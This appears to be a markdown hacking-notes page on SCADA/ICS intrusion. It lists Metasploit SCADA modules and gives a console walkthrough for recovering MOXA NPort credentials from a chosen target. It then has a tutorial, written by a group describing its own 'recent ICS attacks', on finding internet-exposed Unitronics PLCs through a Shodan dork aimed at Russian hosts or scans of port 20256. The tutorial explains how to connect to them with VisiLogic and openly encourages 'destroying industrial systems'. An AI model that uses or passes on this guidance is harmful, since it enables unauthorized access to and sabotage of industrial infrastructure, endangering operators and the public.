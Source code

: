 # SCADA

## 01 - Metasploit

TODO: Go through each and every MSF module related to SCADA/ICS

```
auxiliary/analyze/modbus_zip

auxiliary/scanner/scada/modbus_banner_grabbing

auxiliary/scanner/scada/modbusclient

auxiliary/scanner/scada/modbus_findunitid

auxiliary/scanner/scada/modbusdetect

auxiliary/scanner/scada/pcomclient

auxiliary/admin/scada/modicon_stux_transfer

auxiliary/admin/scada/modicon_command
```

- Gather MOXA NPort credentials when authentication is on.

```
msf > use auxiliary/admin/scada/moxa_credentials_recovery

msf auxiliary(admin/scada/moxa_credentials_recovery) > options

msf auxiliary(admin/scada/moxa_credentials_recovery) > set function creds

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rport 4800

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rhosts <target_IP>

msf auxiliary(admin/scada/moxa_credentials_recovery) > run
```

## Unitronic PLCs

Unitronics devices, some of our recent ICS attacks had a new approach that shocked a few people and we got some questions on it was the targets where we showed off the HMI's for them.

Those are Unitronics Device this writeup will be a tutorial on how you can also access and breach these devices

Lets start with finding these devices there are 2 ways:

1. The typical shodan way, one dork you can use to find it (country:"ru" unitronics) or you can gather a bunch of CIDR and make a access control list using this https://www.countryipblocks.net/acl.php then scan the ranges for port 20256

Once thats done let's install the required program to remotely connect to the unitronics devices https://www.unitronicsplc.com/software-visilogic-for-programmable-controllers/

Now how to connect? You open visilogic and head to the connection tab and then press the last option (communication and os) from there set the connection type to TCP call and configure the project settings 

Now you see this scary panel? well don't be scared. For IP address that's self explanatory which is the target. The port is whatever the targets port is. Now for the PLC name. THIS STEP IS NECESSARY!

Be it shodan or your scans you will usually have the PLC name INSERT THAT THE EXACT WAY ITS WRITTEN IN YOUR RESULTS

After that press okay and once back on the communication and OS page, press get OPLC information if you see the information loaded its safe to close the tab out now go back to connection and press online test or simply press F9 on your keyboard.

Once that's done you can press the (play button) and you officially accessed the unitronics PLC

From here we do recommend research on using this software and how to properly achieve what you want and destroying industrial systems (Via videos or the same download link from above check out the manual, etc etc)

HACK THE PLANET!!

ANY QUESTIONS DROP THEM IN THE CHAT

---
## References

- [[SCADA (ICS)|Shodan: SCADA]]